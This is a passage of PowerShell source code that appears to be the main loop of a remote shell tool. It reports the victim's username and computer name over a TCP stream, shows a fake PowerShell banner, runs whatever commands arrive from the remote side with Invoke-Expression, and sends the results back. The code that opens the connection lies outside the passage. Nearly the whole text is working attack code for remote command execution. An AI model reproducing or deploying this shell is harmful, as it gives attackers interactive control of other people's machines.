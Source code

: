```ps1
        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
```